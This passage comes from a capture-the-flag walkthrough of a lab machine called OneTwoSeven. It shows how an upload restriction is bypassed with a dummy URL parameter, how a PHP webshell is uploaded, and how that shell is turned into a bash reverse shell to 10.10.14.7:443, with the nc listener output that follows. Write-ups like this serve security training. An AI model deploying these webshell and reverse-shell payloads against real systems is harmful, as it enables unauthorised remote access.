 I’ll use the “Browse” button to pick a simple php webshell, and then (with Burp in place), hit “Submit Query”. Unfortunately, it returns a 404:

![1559745037521](https://0xdfimages.gitlab.io/img/1559745037521.png)

This suggests that the rewrite rules are not in place for upload.

### Trick The Script

To get my plugin uploaded, I need to trick the script. The only way I know to get to the script in a way that it won’t die is to submit to `/addon-download.php`. But I want to upload. For that, I need to have `/addon-upload.php` in the uri. I can achieve this with a dummy parameter: `http://127.0.0.1:60080/addon-download.php?0xdf=/addon-upload`.

I’ll send my post that returned 404 to Burp repeater. I’ll simply add the parameter to the url, and hit submit:

[![repeater](https://0xdfimages.gitlab.io/img/1559745391185.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1559745391185.png)

It reports the upload was successful. I’ll check in `/addons`, and it’s there:

![1559745453574](https://0xdfimages.gitlab.io/img/1559745453574.png)

I can go to the url and add a `cmd=id` parameter and I have execution:

![1559745485925](https://0xdfimages.gitlab.io/img/1559745485925.png)

### Shell

To upgrade this to a shell, I’ll go back into repeater and change the content of my plugin from:

```

<?php system($_REQUEST['cmd']); ?>

```

to:

```

<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"); ?>

```

I’ll submit, and it overwrites my previous shell. Then I’ll refresh the page, and `nc` gets a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:41336.
bash: cannot set terminal process group (1352): Inappropriate ioctl for device
bash: no job control in this shell
www-admin-data@onetwoseven:/var/www/html-admin/addons$

```

